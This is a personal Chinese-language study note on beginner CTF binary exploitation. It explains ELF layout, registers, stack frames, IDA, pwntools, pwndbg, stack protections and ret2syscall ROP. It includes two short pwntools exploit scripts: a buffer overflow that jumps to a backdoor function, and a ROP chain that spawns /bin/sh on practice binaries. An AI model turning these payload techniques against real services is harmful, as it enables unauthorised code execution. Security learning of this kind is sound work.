# PWN - 入门笔记（自用）

## 1. 基础与前置知识

### 1.1 程序的编译与链接

1. 408 计组提到过：
    

### 1.2 ELF 文件

1. 参考文档：

    > https://ctf-wiki.org/executable/elf/structure/basic-info/

2. 主要了解 ELF 文件的总体格式，了解三个部分的各自大致功能。

    1. ELF header（和 Program header table）
    2. Sections
    3. Section header table

3. 映射：
    

### 1.3 基本的计组与汇编知识 - 王道 408 的第四章，涉及指令系统和汇编的知识。

#### 1.3.1 寄存器知识

1. 32 位中主要的寄存器： 
    1. AX 累加器
    2. BX 基地址寄存器
    3. CX 计数寄存器
    4. DX 数据寄存器
    5. SI（Source Index）、DI（Destination Index） 变址寄存器
    6. BP（Base Pointer）、SP（Stack Pointer）堆栈基/顶指针。
2. 普通 16 bit，带 E 前缀的 32 bit。
    普通的里面，由分为高 8 bit（H） 和 低 8 bit（L），例如 AH 和 AL。
    结尾的 X 表示任意未知数，表示这个 Reg 可以存任意值，即暗指这个是通用寄存器。
    **除了 BP 和 SP 外，其他的用途比较任意。**
3. 64 位中：
    **R 前缀表示 64 bit**，为了向后兼容，E 还是可以用，表示 R 的低 32 位。
    RIP 存放下一条执行的指令偏移地址。也就是常说的 PC 的具体寄存器。
    同样的，也有 RBP、RSP 和 RAX 等寄存器。

#### 1.3.2 汇编格式 X86

1. 从左往右是目的操作数和源操作数
2. 寄存器和立即数不需要加前缀
3. 使用 `[地址]` 来寻址： `mov` 指令是取内容的。即类似 C++ 中的 `*` 来取指针的内容。 如果 `[]` 里面是寄存器的名字，则把该寄存器存的内容当作内存地址来处理。最终是从内存中取到对应位置的立即数（相当于寄存器间接寻址）。对其操作就是相当于对寄存器的内容进行操作（修改地址）。 `[数字]` 就代表内存地址，在指令中就是操作其指向的数据。
4. `R[寄存器名]` 就是对指定寄存器的内容进行操作。`M[地址]` 就是对主存单元为指定地址的内容进行操作。
5. 数据长度：
    byte ptr - 1B
    word ptr - 1 字（一般是 16 bit，因为现在的指令结构是从 16 位扩展而来）
    dword ptr - 两字 不注明长度的默认都是 32 bit。

#### 1.3.3 常见的汇编指令

1. 

### 1.4 内存布局

#### 1.4.1 总体概述

1. 内存分配图大致如下所示：
   
   
2. 下述内容参考：

    > https://zhuanlan.zhihu.com/p/256391643
    >
    > https://www.geeksforgeeks.org/memory-layout-of-c-program/

#### 1.4.2 BSS 段

1. 未初始化的数据段 (Uninitialized data segment)，也被称之为`BSS`段，其名字以一个古老的汇编操作符命名，其代表了“以符号为始的块（Block Started by Symbol）”。在程序执行之前，在这个段的数据都会内核初始化成 0。
2. BSS 段主要存放**未初始化的全局或未划分空间**的**全局的或静态的**数据/变量。

#### 1.4.3 .data 段

1. 初始化后的数据段 (initialized data segment)，通常简称为数据段 (data segment)。数据段中储存的是程序中的**全局变量或者是静态变量**，而这些变量是被程序员初始化过了的。注意到，数据段的数据并不意味着只是只读的，其中的变量可能在程序运行中被改变。数据段又可以被划分为**初始化过了的只读区 (initialized read-only area)** 和**初始化过了的读写区 (initialized read-write area)**，这个由程序中的关键字进行修饰。

2. 举例而言：

    ```c++
    char s[] = "hello world";
    ```

    如果这个语句在函数之外，定义了一个全局的字符数组，其储存在了数据段的初始化过了的读写区。如果像是：

    ```c++
    char *string = "hello world";
    ```

    那么，这个字符实体 `"hello world"` 将会被储存在初始化过了的只读区，但是其指针 `&string` 本身储存在了读写区。

#### 1.4.4 .text 段

1. 文本段又被称之为代码段，其中包含着程序代码的可被执行的指令（CPU 中的译码器将解释这些指令，从而实现数值计算或逻辑计算等）。文本段从最低地址位开始分配，因为如果放在堆栈的后面，如果堆栈溢出 (overflow) 了，那么文本段就可能会被覆盖掉，造成不可预料的程序错误，因此为了避免这个问题，我们把文本段放在了最低位。
2. 通常来说，代码段中的代码是可以被共享的（感觉有点像动态链接的意思，多个程序动态链接同一个库的程序，而不尝试去进行集成在一起，因为集成在一起将会造成多个同样指令的多个副本，造成浪费），因此，对于同一个模块（同一个库），我们只需要在文本段保留一个副本就够了。**文本段通常是只读的**，从而避免程序在意外情况下改变了其中的指令。（如果真的造成了溢出，真的可能会不可预料地改变文本段的指令，这个通常是很危险的，会导致这个系统的崩溃）。
3. 除了存放**可执行代码**，也可以存放**只读常量**（例如字符串常量等）。

### 1.5 函数调用栈与栈帧的部分知识

#### 1.5.1 栈的组成

1. 每个过程/函数都有自己的栈区，成为栈帧。
    栈帧内一般存放函数的局部变量，保存函数调用的相关信息。默认栈帧 4B。
2. 栈底指针寄存器 EBP 指示栈帧的起始位置（偏向栈底高地址），栈顶指针寄存器 ESP 指向栈顶高地址，**栈从高地址向低地址增长。**
3. 一个栈只有 EBP 和 ESP。
4. 在 x86 中
    使用栈来传递参数。
    使用 eax 存放返回值。
5. 在 amd64 中
    前 6 个参数依次存放在 rdi、rsi、rdx、rcx、r8、r9 这六个寄存器中。
    第 7 个以后的参数存放在栈中。

#### 1.5.2 栈帧细节

1. 先举一个代码例子

    ```c++
    #include<stdio.h>
    int sum(int x, int y){
        return x + y;
    }
    int main(){
        sum(1, 2);
        return 0;
    }
    ```

2. 执行 `sum(int x, int y)` 时的栈帧图：
    

#### 1.4.3 函数的调用过程

1. 调用前：
    1. 保存必要的寄存器的值。
    2. 通过 `push` 和 `mov` 指令将调入参数写入栈顶（在调用者的栈帧中）。
    3. 执行 `call` 指令： 调用者首先将当前指令的地址入栈（即 PC/IP(Instruction Pointer, x86 的 PC，也就是返回地址），然后执行 `jmp <label>`。
    4. 被调用函数首先执行： 
        `pushl %ebp` # 调用者的栈底基地址入栈，然后 esp - 4 指向目前的栈顶。
        `movl %esp, ebp` # 将 ebp 指向 esp，表示进入了被调用者的栈帧。 这两个指令，可以合并为 `enter` 指令。
2. 执行函数主题内容。
3. 退出函数之前：
    1. `movl %esp, %ebp` # esp 先指向被调用者的栈底，ebp + 4 之后 esp 指向调用者的返回地址，以执行调用者的下一条指令。 
        `popl %ebp` # ebp 为返回地址的内容，即指向调用者的基地址，被调用者的栈帧底部出栈。 这两个指令可以合并为 `leave` 指令。
    2. 被调用者保存寄存器有要保存值，就保存，没有就跳过。
    3. `ret` 指令将 esp 的内容弹出，赋给 PC/IP，然后执行调用者的下一条指令。

## 2. IDA 的基本操作 - 用于静态分析

1. 文件分为 32 位和 64 位，用对应的 IDA 打开，默认直接点击 OK 即可，不用修改啥参数。
2. 界面介绍：
    
3. `空格键` 用于切换主体部分的 Text View 和 Graph View。
4. Options - Generals - Disassembly：
    
    用于显示机器码。
5. `F5` 或者 `Tab` 用于切换显示反编译的 C 代码 - Pseudocode - 伪代码 和 IDA View-A 汇编代码。
6. 全选 Pesudocode 中的代码，右键选择 Copy to Assembly，则伪代码和汇编代码混合在一起，有助于阅读汇编代码。
7. `shift + f12` 打开字符串模式，会显示一个程序中所有的可读字符串。在找不到入口函数中，通过运行程序并查找其程序提示文字，借助 DATA XREF 的提示，从而定位主程序的位置。
    又或者可以用该模式去搜索某些后门字符串，例如 `/bin/bash`。
8. IDA 有时会显示一个变量的相对位置：
    
    例如这里，buffer[] 距离 ebp 就是 16 个字节。
    具体参考 ebp 还是 esp，看情况。但是想要知道具体溢出多少数据才能干涉栈的返回地址，还是以**动态调试**为主。
9. 在函数区域使用 `ctrl + f` 来查看原二进制文件是否存在一些后门函数，例如 `system()` ，有的话就可以直接利用。
10. 

## 3. Pwntools 的使用

1. 以官方文档为主：

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/intro.html

### 3.1 常用的函数

1. `process()` 和 `remote()`：

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/tubes/processes.html
    >
    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/tubes/sockets.html#module-pwnlib.tubes.remote

    通过 `process("本地二进制文件路径")`，可以创建一个运行该程序的进程对象，其本质是**管道**，同时包装了一些方法。**一般用它来搭建本地的攻击环境。**
    通过 `remote("ip", 端口号)` 用于开启远程的连接。

2. `recv()` 和 `recvline()`：

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/tubes.html#pwnlib.tubes.tube.tube.recv
    >
    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/tubes.html#pwnlib.tubes.tube.tube.recvline

    `recv()` 用于接收一个**管道**的数据。而 `recvline()` 接收数据时，遇到 `\n` 停止。一般这两个函数用于接收 `process` 对象所运行程序的结果。接收的结果是字节流 bytes。

3. `send(字节流)` 和 `sendline(字节流)`：

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/tubes.html#pwnlib.tubes.tube.tube.send

    向管道发送数据，需要注意的是，其发送的内容要是字节流而不是 python 中的内置对象。
    例如发送整数时，需要用到 `p32(number=)` 和 `p64(number=)` 方法：

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/util/packing.html#pwnlib.util.packing.p64

    同样的，传字符串不能直接传 python 的 str 对象，而是传输 bytes 对象：`b"字符串内容或者 16 进制 ASCII \x--"`。

    对于有些二进制程序，例如其接收数据的函数是 `gets()` 时，其会一直读取缓冲区的内容，直到换行符。因此 `sendline()` 会在字节流的后面添加 `\x0a` 换行符。

4. context 模块
    除了常见的 i386，有时目标的机器类型不同，写攻击脚本时也要指定 Shell 等的运行参数。
    context 中，常见的参数有：`arch`、`bits`、`os`、`endian`（也就是大端还是小段存储）。
    可以直接通过 `context.参数 = ...` 来设置，又或者直接使用 `context.update(参数=...) 或者 context.update({键值对})` 来设置。
    一般攻击脚本的开头就尽量指定好，**主要是 `arch` 参数要指定好**，常见的取值有 `mips`、`amd64`、`thumb`、`i386`。优先设置 `arch` 是因为设置 `arch` 后 `bits` 和 `endian` 也会自动跟着变。

5. shellcraft 模块

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/shellcraft.html

    用来生成各种系统架构 shellcode 的模块，包括 AArch64、AMD64（Intel x64）、ARM、i386 以及 MIPS。
    生成 Shellcode 的汇编代码用：`shellcraft.架构名.[linux.]sh()`。
    但是直接发送 Shellcode 过去是无法获得 Shell 的，因为内存内需要的是机器码（从而得以让 CPU 执行），所以需要使用汇编器对 Shellcode 进行汇编：`asm()`。
    同时，为了确保 Shell 交互的有效，同时还需要设置 `context` 上下文。

6. asm 模块

    > https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/asm.html

    上文提到了 shellcode 需要进行汇编以变成机器码，因此直接调用 `asm()` 函数即可。
    除此之外，还可以进行反汇编。

7. `ljust()`

    > https://www.runoob.com/python/att-string-ljust.html

    这是 python 的原生函数，一般 payload 需要 shellcode + 垃圾数据 + 返回地址。此时垃圾数据就用 `ljust()` 函数填充（因为 shellcode 长度不懂）。

### 3.2 最简单的 payload 编写示例

1. 假设二进制程序没有任何保护，静态编译后存在后门函数，通过调试得到的栈的使用如下：
    
    可以看出，写入的数据会进入到 eax 寄存器，其距离调用者 `main()` 的栈帧的返回地址是 14H，也就是 16 + 4 = 20 bytes，因此 payload 前面有 20 bytes 的垃圾数据，后 4 bytes 数据用于覆盖返回地址。

2. payload 如下：
    ```python 
    from pwn import *
    io = remote("ip", port_number)
    io.recvline() # 或者 io.recv()，直到数据注入点
    # 根据 IDA 的静态分析，得到后门函数的入口地址为 0x08048522
    payload = b'A' * 20 + p32(0x08048522)
    io.send(payload)
    # 攻击成功后可以进行交互
    io.interactive()
    ```

## 4. GDB-pwndbg 的使用 - 动态调试

1. 启动 pwndbg：
    `gdb-pwndbg -q 二进制程序`

2. 打断点：
    `b/break [*地址值]/[函数名]`

3. 从头重新启动程序：
    `run/r`

4. 下一步：
    `next/n`

5. 步进 step in：
    `s`

6. 查看当前栈的详情：
    `stack 数字`，数字用于显示数量。
    注意显示的栈底在下，栈顶在上，地址从上往下呈递增。

7. 查看函数的汇编代码：
    `disass 函数名`

8. 查看某一时刻一个进程的虚拟内存和物理内存的使用情况：
    `vmmap`，需要程序运行，一般结合断点使用。例如：
    
    出于安全，一般情况下，RWX 中 W 和 X 不同同时出现（写与执行)。

9. 参考：

    > https://www.cnblogs.com/murkuo/p/15965270.html

## 5. 栈溢出 - 基础

### 5.1 最基本的栈溢出

1. 在 [3.2](#3.2 最简单的 payload 编写示例) 中提到了例子，该例子就是最简单的栈溢出。（本质是 return to .text）

### 5.2 Shellcode

1. 往往二进制程序中并没有可以直接利用的后门函数，这时就需要攻击者手动写入到栈/堆缓冲区或者 BSS 缓冲区。
2. 由于堆缓冲区 `malloc` 没有执行权限，所以一般不向堆缓冲区写入。
3. **初期往往将 shellcode 直接写入栈缓冲区**。Shellcode 的生成见 [3.1 的 shellcraft 模块](#3.1 常用的函数)
4. 目前由于 NX(no-execute) bits 保护措施的开启，栈缓冲区不可执行，故当下的常用手段变为**向 BSS 缓冲区写入 shellcode **或向堆缓冲区写入 shellcode 并使用 mprotect 赋予其可执行权限。

### 5.3 针对栈溢出的保护 - NX bits

1. 程序与操作系统的防护措施，编译时决定是否生效，由操作系统实现。
2. 通过在内存页的标识中增加“执行”位, 可以表示该内存页是否可以执行, 若程序代码的 EIP 执行至不可运行的内存页, 则 CPU 将直接拒绝执行“指令”从而造成程序崩溃。

### 5.4 针对栈溢出的保护 - ASLR(Address Space Layout Randomization)

1. 系统的防护措施，程序装载时生效。
2. `/proc/sys/kernel/randomize_va_space = 0`：没有随机化。即关闭 ASLR。
    `/proc/sys/kernel/randomize_va_space = 1`：保留的随机化。共享库、栈、`mmap()` 以及 VDSO 将被随机化
    `/proc/sys/kernel/randomize_va_space = 2`：完全的随机化。在 `randomize_va_space = 1` 的基础上，通过 `brk()` 分配的堆内存空间也将被随机化。
3. 原来程序编译后，地址都是相对固定的，栈的空间紧紧贴近内核空间。但是 ASLR 将每次程序执行时的库，堆和堆栈等放在进程地址空间中的任意随机位置（也就是**相对偏移不确定的长度**），这使攻击程序无法根据本地环境来推断远程服务器内堆栈的地址/偏移量。

### 5.5 针对栈溢出的保护 - Canary

1. 参考：

    > https://zhuanlan.zhihu.com/p/613650807

2. Canary 是一种针对栈溢出攻击的防护手段，编译时生效。其基本原理是从内存中某处（一般是 **fs: 0x28** 处）复制一个随机数 `canary` ，该随机数会在创建栈帧时紧跟着 rbp 入栈，一般在函数栈帧的 rbp 栈上方（位于低地址）。
    在函数退栈返回前，**程序会比对栈上的 canary 副本和原始的 canary** ，若二者不同，则说明发生了栈溢出，这时程序会直接崩溃。

3. `canary` 长度为1字长，其位置不一定与 ebp/rbp 存储的位置相邻，具体得看程序的汇编操作。

## 6. 返回导向编程

### 6.1 ret2syscall - 返回系统调用

1. 系统调用/广义指令：
    1. 操作系统提供给用户的**编程接口**
    2. 是提供访问操作系统所管理的底层硬件的接口
    3. 本质上是一些内核函数代码，以规范的方式驱动硬件
    4. x86 通过 `int(interrupt) 0x80` 指令进行系统调用、amd64 通过 `syscall` 指令进行系统调用

2. `ldd 文件名` 可以查看二进制文件所链接的动态链接库。

3. 最终的目标是返回到 libc.so.6 库函数文件中的 `system()` 函数或者 `execve("/bin/sh",NULL,NULL)`。

4. 但实际上
    ```assembly
    mov eax, 0xb # Address A
    mov ebx, ["/bin/sh"] # Address B
    mov ecx, 0 # Address C
    mov edx, 0 # Address D
    int 0x80 # Address E
    => execve("/bin/sh",NULL,NULL)
    ```

    例如该函数由多段汇编指令构成，因此需要尽量连续多次分步执行这些命令。这样的过程就叫做 ROP(Return Oriented Programming)。

5. 为了完成上述过程，需要考虑两个主要方向：

    1. 寄存器赋值。
    2. **控制程序的走向。**

6. 对于寄存器赋值，在控制程序走向的情况下，只需要执行 `mov`、`pop` 等相关指令，就能修改寄存器的值，因此问题的关键在于**如何控制程序的走向**。

7. 由栈溢出的理论来看，想要控制程序的走向，就是要控制函数的**返回地址**，但归根结底是要**运行到 `ret` 指令**。因此，控制程序走向本质就是要**一直执行 `ret` 指令**。

8. 以上述的汇编代码和其对应的地址为例（粗略图）：
    
    找到各个带 `ret` 汇编指令对应的地址，通过栈溢出写到栈上，一层一层出栈与执行下一条命令。

9. 通过 ROPgadget 工具，可以寻找某个二进制程序内（.text 内）某些汇编指令的地址。常见的用法：
    `ROPgadget --binary 二进制文件 --only 'ret|pop|mov 等'`

10. 举例：例如有一题中，得到 `/bin/sh` 字符串所在位置为：0x080BE408。同时获得操作 eax、ebx、ecx 、edx 以及 `int 0x80` 的汇编指令的地址如下：
    
    
    
    因此构造的 payload 如下：

    ```python
    from pwn import *
    
    io = process("./ret2syscall")
    io.recv()
    
    eax_ret_addr = 0x080bb196
    edx_ecx_ebx_addr = 0x0806eb90
    bin_sh_addr = 0x080BE408
    int_0x80_addr = 0x0805d025
    
    # 112 byte 
    garbage = 112 * b'A'
    payload = flat([garbage, eax_ret_addr, 0xb, edx_ecx_ebx_addr, 0, 0, bin_sh_addr, int_0x80_addr])
    
    io.sendline(payload)
    io.interactive()
    ```


